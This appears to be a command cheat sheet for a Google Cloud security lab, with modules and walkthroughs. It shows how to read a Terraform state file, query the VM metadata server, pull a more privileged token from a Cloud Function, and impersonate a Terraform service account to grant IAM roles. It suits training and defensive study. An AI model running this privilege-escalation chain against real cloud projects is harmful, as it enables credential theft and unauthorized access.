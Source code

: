 # Commands

<details>
  <summary>***** Module 2 *****</summary>

## Module 2

read state file
#####
    gsutil cat gs://file-uploads-$PROJECT_ID/infrastructure_config.tfstate

  <details>
    <summary>Walkthrough Module 2</summary>
    
  ssh into vm
  #####
    ssh -i <private key file> alice@<compute instance IP> 

  </details>

</details>

#

<details>
  <summary>***** Module 3 *****</summary>

## Module 3

show VM service account
#####
    gcloud auth list

background: metadata server
#####
    curl "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/" -H "Metadata-Flavor: Google"

demonstrate limited access scopes
#####
    gcloud compute instances list

show access scopes from tokeninfo endpoint
#####
    curl -i https://www.googleapis.com/oauth2/v3/tokeninfo\?access_token=$(gcloud auth print-access-token)

list storage buckets from VM
#####
    gsutil ls

  <details>
    <summary>Walkthrough Module 3</summary>

  list function source code bucket
  #####
      gsutil ls gs://cloud-function-bucket-module3

  read source code
  #####
      gsutil cat gs://cloud-function-bucket-module3/main.py

  execute function invocation script
  #####
      ./invoke_monitoring_function.sh

  extract command to get function token
  #####
    # Get the Gen2 function URL (Cloud Run service)
    FUNCTION_URL=$(gcloud run services describe monitoring-function --region=$LOCATION --format='value(status.url)')
    # Or use the hard-coded URL from invoke_monitoring_function.sh
    curl -s -X POST $FUNCTION_URL -H "Authorization: bearer $(gcloud auth print-identity-token)" -H "Content-Type: application/json" -d '{"metadata": "token"}'

  save the new token in env var and check access scopes
  #####
    curl -i https://www.googleapis.com/oauth2/v3/tokeninfo\?access_token=$TOKEN
    
  </details>

</details>

#

<details>
  <summary>***** Challenge 5 *****</summary>

## Challenge 5

set token as env var
#####
     export CLOUDSDK_AUTH_ACCESS_TOKEN=<function token>

Get project permissions
#####
    gcloud projects get-iam-policy $PROJECT_ID

List the other service accounts on this project:
#####
    gcloud iam service-accounts list

Describe role
#####
    gcloud iam roles describe TerraformPipelineProjectAdmin --project $PROJECT_ID

Describe bindings on SA
#####
    gcloud iam service-accounts get-iam-policy <terraform service account>

  <details>
    <summary>Walkthrough Challenge 5</summary>
  
  impersonate and set binding
  #####
    gcloud projects add-iam-policy-binding $PROJECT_ID --member=user:<your Google account> --role=roles/viewer --impersonate-service-account <terraform pipeline account>
  
  </details>

</details>
